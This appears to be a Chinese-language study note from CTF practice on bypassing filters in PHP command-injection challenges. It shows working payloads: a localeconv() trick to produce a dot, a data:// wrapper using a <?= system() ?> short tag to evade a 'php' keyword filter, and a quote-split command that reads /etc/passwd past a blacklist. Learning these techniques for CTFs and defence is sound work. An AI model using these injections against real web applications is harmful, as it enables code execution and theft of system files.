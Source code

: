 ![[Pasted image 20231213151235.png]]
##### 点号限制绕过

这个就是当点号(.)被过滤时使用，也没啥好讲的，就是用下面这个替换就可以了

```php
pos(localeconv())
```

**localeconv() 函数**返回一包含本地数字及货币格式信息的数组。其中**第一位就是点号**

**pos()函数**就是取数组的第一位元素并返回，所以就得到了点号
#### php限制绕过

 php的限制一般是用于防止后缀和嵌套php文件

后缀的话一般就用通配符就可以绕过了

限制嵌套php文件的话，若对传入的c进行php的过滤，那该怎么绕过呢？

例如原有这样一个语句

```cobol
?c=data://text/plain,<?php system("cat flag.*hp");?>
```

 那就可以用如下语句代替

```cobol
?c=data://text/plain,<?= system("cat flag.*hp");?>
```

 ==即**等于号**可以代替**php文件标识处的"php"**==

可以看到，这样仍能执行
	##### 黑名单绕过
##### 连接符绕过

**单引号‘’，双引号“”，反斜杠`**如：

```php
 /'b'i'n'/'c'a't' /'e't'c'/'p'a's's'w'd
```
![[Pasted image 20231213152044.png]]
##### **常见的特殊**
![[Pasted image 20231213190512.png]]


| ？ | 匹配单个字符如果匹配多个字符，就需要多个?连用 |
| ---- | ---- |
| * | * 代表任意数量的字符 |
| [ ] | 代表一定有一个在括号内的字符(非任意字符)。例如 [abcd] 代表一定有一个字符， 可能是 a, b, c, d 这四个任何一个 |


![[Pasted image 20231213160250.png]]
